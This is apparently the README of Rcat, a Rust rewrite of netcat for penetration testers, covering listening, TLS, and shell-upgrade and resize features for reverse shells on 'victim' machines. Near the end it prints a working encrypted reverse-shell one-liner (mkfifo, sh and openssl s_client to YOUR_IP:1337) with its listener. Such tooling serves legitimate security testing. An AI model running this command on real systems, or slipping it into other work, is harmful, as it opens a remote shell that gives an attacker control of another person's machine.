 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on port `tcp:9001`, and receive an HTTP request made with `curl`.

### Install
#### Static binaries

We provide binaries for:
* [Linux amd64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_amd64)
* [Linux arm64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_arm64)
* [Windows](https://github.com/0xfalafel/rcat/releases/latest/download/rcat.exe) (amd64)
* [Mac OS](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_macos) (arm64)

#### Build from source

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
There is no need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) each time you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

> Here the commands `stty rows 22 cols 65` and `export TERM=xterm-256colors` are typed automatically when the connection is received.

#### Shell Upgrade Windows

Windows is also supported by the shell upgrade feature.

<img src="images/rcat_win.svg">

#### Resize

Unless you use the `-R` option, the remote terminal will automatically be resized when you change the size of your terminal.  
> (Rcat sends a _SIGTSTP_, resizes the terminal with the `stty` command then uses `fg` to restore the application running.)

<img src="images/rcat_resize.webp">

> In this clip we run `htop` on the victim machine, and the reverse shell is automatically resized.

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If you have a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), you can use the `--key` and `--cert` options to use it.

### TLS listener

But for now let's use a self-signed certificate:

```bash
> rcat -l 1337 --self-signed
Listening on 0.0.0.0:1337 (tcp/tls) with a self-signed certificate
```

### Reverse Shell

On a __linux__ target, you can use the following command to __connect to your listener__.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:1337 >/tmp/f
```

## Acknowledgment

The _shell upgrade_ feature for _windows_ is taken from the [ConPtyShell](https://github.com/antonioCoco/ConPtyShell/) project.
